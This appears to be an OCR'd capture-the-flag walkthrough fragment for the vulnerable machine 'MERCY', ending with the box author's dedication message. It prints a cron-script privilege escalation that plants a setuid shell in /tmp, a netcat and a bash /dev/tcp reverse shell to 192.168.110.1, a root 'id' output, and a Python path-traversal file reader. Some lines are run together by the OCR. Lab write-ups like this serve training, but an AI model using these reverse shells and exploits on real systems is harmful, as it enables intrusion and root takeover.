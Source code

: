     now=$(date)
    echo "The system time is: $now." > ../../../../../var/www/html/time
    echo "Time check courtesy of LINUX" >> ../../../../../var/www/html/time
    chown www-data:www-data ../../../../../var/www/html/time
    cp /bin/sh /tmp/shell
    chmod u+s /tmp/shell
    chown root:root /tmp/asroot-32
    chmod 4755 /tmp/asroot-32
    #rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.1 4321 >/tmp/f
    /bin/bash -i > /dev/tcp/192.168.110.1/7321 0<&1 2>&1

    $ /tmp/launcher-32
    root@MERCY:~# id
    uid=0(root) gid=0(root) groups=0(root),1003(fluffy)
    crontab -l
    */3 * * * * bash /home/fluffy/.private/secrets/timeclock
    */5 * * * * bash /home/qiu/.private/opensesame/configprint

## Post exploit

cat author-secret.txt#!/usr/bin/python3
import requests as req
import re

host='http://192.168.110.61/nomercy/windows/code.php?file=../../../../../../../../..'

while True:
    command=input("file: ")
    combined=host+command
    resp = req.get(combined)
    content = resp.text
    stripped = re.sub('<[^<]+?>', '', content)
    clean = re.sub('<?', '', stripped)
    print(clean)

## Author secret
    Hi! Congratulations on being able to root MERCY.

    The author feels bittersweet about this box. On one hand, it was a box designed as a dedication to the sufferance put through by the Offensive Security team for PWK. I thought I would pay it forward by creating a vulnerable machine too. This is not meant to be a particularly difficult machine, but is meant to bring you through a good number of enumerative steps through a variety of techniques.

    The author would also like to thank a great friend who he always teases as "plead for mercy". She has been awesome. The author, in particular, appreciates her great heart, candour, and her willingness to listen to the author's rants and troubles. The author will stay forever grateful for her presence. She never needed to be this friendly to the author.

    The author, as "plead for mercy" knows, is terrible at any sort of dedication or gifting, and so the best the author could do, I guess, is a little present, which explains the hostname of this box. (You might also have been pleading for mercy trying to root this box, considering its design.)

    You'll always be remembered, "plead for mercy", and Offensive Security, for making me plead for mercy!

